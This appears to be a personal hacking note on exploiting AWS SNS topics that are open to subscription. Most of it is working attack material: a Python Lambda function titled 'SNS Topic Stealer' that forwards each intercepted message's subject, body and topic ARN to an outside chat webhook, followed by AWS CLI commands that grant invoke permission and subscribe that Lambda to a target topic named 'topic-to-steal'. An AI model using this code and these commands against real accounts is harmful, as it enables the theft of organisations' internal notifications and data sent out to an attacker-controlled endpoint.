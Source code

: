 is:: [[note]]
from:: [[hacking aws]]

# Notes
Hacking AWS SNS

## Exploiting open SNS topics
If SNS topics are open to be subscribed to, it's fairly easy to connect that via a webhook into a chat program to capture.
* Create a [lambda function](https://aws.amazon.com/premiumsupport/knowledge-center/sns-lambda-webhooks-chime-slack-teams/) that accepts SNS events and forwards them to your chat webhook of choice.

This example uses Microsoft Teams, sending each SNS message in a [pretty card](https://docs.microsoft.com/en-us/microsoftteams/platform/webhooks-and-connectors/how-to/connectors-using?tabs=cURL#send-adaptive-cards-using-an-incoming-webhook) format
```
import urllib3 
import json
http = urllib3.PoolManager()
webhook_url = ""

def lambda_handler(event, context): 
    for sns_message in event['Records']:
        # Chat message in Microsoft Teams adaptive card webhook format
        chat_message = {
          "type": "message",
          "attachments": [
            {
              "contentType": "application/vnd.microsoft.card.adaptive",
              "contentUrl": None,
              "content": {
                "$schema": "http://adaptivecards.io/schemas/adaptive-card.json",
                "type": "AdaptiveCard",
                "version": "1.0",
                "body": [
                  {
                    "type": "Container",
                    "items": [
                      {
                        "type": "TextBlock",
                        "text": "SNS Topic Stealer",
                        "weight": "bolder",
                        "size": "medium"
                      },
                      {
                        "type": "FactSet",
                        "facts": [
                          {
                            "title": "MessageId:",
                            "value": sns_message['Sns']['MessageId']
                          },
                          {
                            "title": "TopicArn:",
                            "value": sns_message['Sns']['TopicArn']
                          },
                          {
                            "title": "Subject:",
                            "value": sns_message['Sns']['Subject']
                          },
                          {
                            "title": "Message:",
                            "value": sns_message['Sns']['Message']
                          }
                        ]
                      }
                    ]
                  }
                ]
              }
            }
          ]
        }
        encoded_msg = json.dumps(chat_message).encode('utf-8')
        resp = http.request('POST', webhook_url, body=encoded_msg)
        print({
            "message": event['Records'][0]['Sns']['Message'], 
            "status_code": resp.status, 
            "response": resp.data
        })
```

* Edit the webhook url, save the lambda, and test with a SNS Notification test message
* Give the target account permissions to invoke the lambda via SNS

```
aws lambda add-permission --function-name arn:aws:lambda:us-east-1:123456789012:my-lambda-stealer \
--source-account 123456789012 \
--statement-id sns-to-lambda-1 --action "lambda:InvokeFunction" \
--principal sns.amazonaws.com
```

* Subscribe to the topic using AWS CLI, changing the topic and lambda ARNs

```
aws sns subscribe \
--topic-arn arn:aws:sns:us-east-1:123456789012:topic-to-steal \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:321456789666:my-lambda-stealer
```

* Test to see if messages arrive
